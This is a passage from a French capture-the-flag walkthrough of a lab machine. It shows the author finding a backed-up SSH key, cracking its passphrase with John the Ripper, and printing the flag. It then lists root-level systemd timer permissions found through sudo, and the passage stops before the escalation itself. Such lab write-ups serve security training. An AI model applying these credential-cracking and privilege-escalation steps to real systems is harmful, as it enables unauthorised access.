 Je peux alors me connecter avec SSH ce qui sera moins galère si je dois reprendre un accès plus tard.

Je cherche les fichiers liés au second utilisateur présent sur le système :

```bash
web@shuriken-node:/home$ find / -user serv-adm -exec file {} \; 2> /dev/null 
/var/lib/lightdm-data/serv-adm: directory
/var/backups/ssh-backup.zip: Zip archive data, at least v2.0 to extract
/etc/systemd/system/shuriken-job.service: ASCII text
/etc/systemd/system/shuriken-auto.timer: ASCII text
/home/serv-adm: directory
```

On peut extraire la clé privée présente dans l'archive zip et ce sans avoir à extraire de mot de passe. La clé privée est par contre protégée par une passphrase. On va la casser avec *John the Ripper*.

```shell-session
$ ./john --wordlist=rockyou.txt /tmp/hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shuriken1995@    (/tmp/id_rsa)     
1g 0:00:00:01 DONE (2022-11-14 19:13) 0.7575g/s 2861Kp/s 2861Kc/s 2861KC/s shurke..shurik23
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Une nouvelle conexion SSH plus tard et on a notre premier flag dans le fichier `user.txt` : `cef238d297752990f891a9a184488124`.

## Wakisashi

Maintenant voyons comment passer root :

```bash
serv-adm@shuriken-node:~$ sudo -l
Matching Defaults entries for serv-adm on shuriken-node:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-adm may run the following commands on shuriken-node:
    (ALL) NOPASSWD: /bin/systemctl start shuriken-auto.timer
    (ALL) NOPASSWD: /bin/systemctl stop shuriken-auto.timer
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
```

L'utilisateur peut démarrer avec les droits root le timer dont le contenu est le suivant :

```systemd
[Unit]
Description=Run Shuriken utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=shuriken-job.service

[Install]
WantedBy=basic.target
```
